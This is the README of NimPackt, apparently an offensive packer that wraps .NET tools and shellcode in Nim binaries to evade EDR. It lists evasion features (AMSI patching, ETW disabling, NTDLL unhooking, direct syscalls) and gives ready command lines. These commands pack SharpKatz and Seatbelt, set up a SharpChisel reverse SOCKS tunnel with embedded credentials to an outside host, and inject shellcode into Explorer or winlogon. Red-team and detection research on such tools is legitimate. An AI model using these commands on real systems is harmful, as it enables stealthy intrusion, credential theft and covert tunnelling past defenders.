 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for C# / .NET executables and raw shellcode

*By Cas van Cooten (@chvancooten)*

## Description

NimPackt is a Nim-based packer for C# / .NET executables and Windows shellcode. It automatically wraps these executables (along with its arguments) in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. There are two main execution methods: 
- `Execute-Assembly` re-packs a .NET executable and runs it, optionally applying evasive measures such as API unhooking, AMSI patching, or disabling ETW.
- `Shinject` takes raw a .bin file with raw, position-independent shellcode and executes it locally or in a remote process, optionally using direct syscalls to trigger the shellcode or patching API hooks to evade EDR.

Currently, NimPackt has the following features.

- Uses direct syscalls to patch AMSI and/or run shellcode to evade EDR
- Unhooks user-mode APIs for spawned thread by refreshing `NTDLL.dll` using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Disabling Event Tracing for Windows (ETW) 
- Patches the Anti-Malware Scan Interface (AMSI)
- AES-encrypts payload to prevent static analysis or fingerprinting
- Obfuscates static strings used in the binary
- Compiles to `exe` or `dll`
- Supports cross-platform compilation (from both Linux and Windows)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

If you want to go all-out on OpSec, you could re-pack the Nim binary using a tool like [PEzor](https://github.com/phra/PEzor) to re-pack the binary into position-independent shellcode and launch it from memory using CobaltStrike, though this is a bit beyond the purpose of NimPackt 😙

## Installation

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!

## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a ARGUMENTS] [-na]
                   [-ne] [-r] [-t INJECTTARGET] [-E] [-nu] [-ns] [-f FILETYPE]
                   [-s] [-32] [-H] [-d] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-
                        assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin)
                        to wrap

execute-assembly arguments:
  -a ARGUMENTS, --arguments ARGUMENTS
                        Arguments to "bake into" the wrapped binary, or
                        "PASSTHRU" to accept run-time arguments (default)
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface
                        (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection
                        (default "explorer.exe", implies -r)
  -E, --existing        Remote inject into existing process rather than a
                        newly spawned one (default false, implies -r)
                        (WARNING: VOLATILE)

other arguments:
  -nu, --nounhook       Do NOT unhook user-mode API hooks in the target
                        process by loading a fresh NTDLL.dll
  -ns, --nosyscalls     Do NOT use direct syscalls (Windows generation 7-10)
                        instead of high-level APIs to evade EDR
  -f FILETYPE, --filetype FILETYPE
                        Filetype to compile ("exe" or "dll", default: "exe")
  -s, --sleep           Sleep for approx. 30 seconds by calculating primes
  -32, --32bit          Compile in 32-bit mode (untested)
  -H, --hideapp         Hide the app frontend (console output) of executable
                        by compiling it in GUI mode
  -d, --debug           Enable debug mode (retains .nim source file in output
                        folder).
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```bash
# Pack SharpKatz to accept arguments at runtime, patching NTDLL hooks, AMSI, and ETW while printing verbose messages at runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -v

# Pack Seatbelt as a DLL file with baked-in arguments (note: write to outfile because stdout is not available for DLLs)
python3 ./NimPackt.py -f dll -e execute-assembly -i Seatbelt.exe -a "-group=all -outputfile=c:\users\public\downloads\sb.txt"

# Pack SharpChisel with a built-in ChiselChief connection string, do not unhook, patch AMSI, or disable ETW, hide the application window at runtime
python3 NimPackt.py -nu -na -ne -H -e execute-assembly -i bins/SharpChisel.exe -a 'client --auth nimpackt.demo_A:718nubCpwiuLUW --keepalive 25s --max-retry-interval 25s https://chisel.azurewebsites.net R:10073:socks'

# Pack raw shellcode to DLL file that executes in the local thread through direct syscalls, unhooking NTDLL as well
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -f dll

# Pack raw shellcode to execute in a newly spawned Explorer thread in an invisible window, enabling verbose log messages in the compiled Nim binary
python3 NimPackt.py -i calc.bin -e shinject -r -H -v

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe'), do not use direct syscalls or unhook NTDLL
python3 NimPackt.py -i calc.bin -e shinject -r -E -t "winlogon.exe" -nu -ns
```

Binaries are stored in the `output` subfolder of your installation directory. Generated `dll` files should be executed as follows:

```powershell
rundll32 exampleShinjectNimPackt.dll,Update
```

## Wishlist

- Replace ShellyCoat with native code to unhook NTDLL [described here](https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/)
- Patch ETW by patching the actual function call (after Shellycoat) using [this method](https://gist.github.com/S3cur3Th1sSh1t/0f44b1a12c7eceb8f7be10799ba5018d)